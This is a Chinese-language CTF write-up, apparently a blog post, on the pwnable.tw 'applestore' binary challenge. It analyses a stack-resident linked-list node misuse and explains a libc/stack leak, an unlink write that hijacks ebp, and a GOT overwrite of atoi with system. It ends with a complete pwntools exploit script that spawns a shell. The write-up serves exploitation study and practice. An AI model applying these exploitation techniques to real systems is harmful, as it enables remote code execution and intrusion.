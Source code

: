 ```yaml
---
Layout: Post
title: pwnable.tw applestore
date: 2022-09-08 08:41:53
---
```


把局部变量用作静态变量，是不是一种栈上数据的UAF……

<!-- more -->

## 程序分析

弄懂本题逻辑的关键点在于弄懂其数据结构是什么，而本人花了一天才终于搞明白，居然是用**双向链表**来表示购物车。

链表结点结构如下：

![struct cart_item](/images/applestore_1.png)

而程序中有很多的地方都有经典的双向链表操作，比如insert函数中是把结点添加到链表尾部，remove函数会把结点**unlink**出双向链表，cart函数会遍历链表等等……

![remove(): unlink](/images/applestore_2.png)

## 漏洞分析

checkout函数将会调用cart函数遍历并计算购物车中所有商品的价格，如果是一个特定值（7174）的话，将会触发一个彩蛋：往购物车的尾部添加一个iPhone8！

然而这个iPhone8就是漏洞的所在——**iPhone8结点是一个本地变量，然而程序把这个本地变量当作静态变量使用了！**

而作为一个菜单题，很多选项背后的函数，都会在iPhome8结点位置附近（iPhone8结点位于ebp-0x20）放置一个BUFFER来存储输入（BUFFER位于ebp-0x22），因此实际上**可以控制iPhone8结点的值**。

在控制值之后，我们可以利用cart函数泄露任意地址数据，也可以使用remove函数进行unlink attack来覆写数据，但值将会受到限制，因为使用指令向一个不可写地址写入数据将导致程序崩溃。

由于程序显然不存在RWX段，因此我们想要进行unlink attack，fake fd和fake bk都必须是一个可写的段的地址。我们想要劫持控制流，必须要采取别的方法。

这个方法我没有想到，是去网上看大佬WP学到的，我将其称为：**Stack Pivot Lite**（只劫持ebp的stack pivot）。

具体来说：在handle函数（处理菜单的函数）中，每次循环的一开始都会往BUFFER里读入数据并调用atoi函数将其转换为数字。而这个BUFFER作为栈上的变量，是使用`[ebp + offset]`的格式来引用的（见下面的汇编代码）。
如果可以**劫持ebp**，那么实际上我们可以劫持read到别的地方（如atoi的got表位置），然后读入system的地址加上";/bin/sh"，如此一来，执行atoi的时候实际上执行的是system("不可打印字符;/bin/sh")！！

```asm
mov     dword ptr [esp+4], 15h ; nbytes
lea     eax, [ebp+nptr]
mov     [esp], eax
call    my_read

lea     eax, [ebp+nptr]
mov     [esp], eax      ; nptr
call    _atoi
```

那么如何劫持ebp呢？用unlink来写入即可，因为fake fd（got表附近）和fake bk（栈）都是可写的，所以这次unlink可以正常运行！

## 漏洞利用

脚本逻辑如下：
首先用循环来填充购物车，将总金额凑满7174元。（求多元一次方程的整数解问题，或许是线代的基本功？但是我早就忘了（悲），不过好运的是，我第一次凑就突然凑出来了）

然后在购物车中加入iPhone8，利用Cart函数先后泄露libc地址（利用GOT表）和栈地址（利用_environ）。

第三步，通过**覆写remove函数栈帧上的saved ebp**，来**劫持handle函数的ebp**，来劫持提供给read的实参指针。
然后将atoi的got表指针修改为system()，等待handle函数调用 `atoi([ebp-0x22])` ，实际上执行的是 `system("不可打印字符;/bin/sh")` ，拿到Shell和Flag。

```python
from pwn import *
context.arch='i386'
# context.log_level='debug'

filename="./applestore"
# io = process([filename])
io = remote("chall.pwnable.tw", 10104)
elf=ELF(filename)

libc_name="./libc_32.so.6"
# libc_name="/home/nss/glibc-all-in-one-master/libs/2.23-0ubuntu5_i386/libc.so.6"
libc=ELF(libc_name)

def Debug():
    gdb_script = """
    b *0x8048beb
    """
    g = gdb.attach(io, gdb_script)

def Add(ID):
    io.sendlineafter(b"> ", b'2')
    io.sendlineafter(b"> ", str(ID).encode('ascii'))

def Remove(ID):
    io.sendlineafter(b"> ", b'3')
    io.sendlineafter(b"> ", str(ID).encode('ascii'))

def List():
    io.sendlineafter(b"> ", b'4')
    io.sendlineafter(b"> ", b'y')

def Checkout():
    io.sendlineafter(b"> ", b'5')
    io.sendlineafter(b"> ", b'y')

"""Edit metadata of iPhone 8 struct and print it"""
def List_Edit(data):
    io.sendlineafter(b"> ", b'4')
    io.sendlineafter(b"> ", b'yy'+data)

def Unlink_Attack(fd, bk):
    io.sendlineafter(b"> ", b'3')
    io.sendlineafter(b"> ", b'27'+pack(0x8049000)+pack(0xdeadbeaf)+fd+bk)


for i in range(6):
    Add(1)
for i in range(20):
    Add(2)

# leak libc and stack:
Checkout()
List_Edit(pack(elf.got["puts"]) + pack(0x114514))
io.recvuntil(b'27: ')
libc_base = unpack(io.recvuntil(b'28: ')[0:4]) - libc.symbols['puts']
success("libc_base: " + hex(libc_base))

_environ_addr = libc_base + libc.symbols["_environ"]
success("_environ_addr: " + hex(libc_base))
List_Edit(pack(_environ_addr) + pack(0x114514))
io.recvuntil(b'27: ')
environ = unpack(io.recvuntil(b'28: ')[0:4])
success("environ: " + hex(environ))

savedrbp_addr = environ - 0xffffd13c + 0xffffd038
success("savedrbp_addr: " + hex(savedrbp_addr))

# unlink attack
# Debug()
Unlink_Attack(pack(elf.got["atoi"] + 0x22), pack(savedrbp_addr - 0x8)) # saved rbp
io.sendline(pack(libc_base+libc.symbols["system"])+b";/bin/sh")

io.interactive()

```
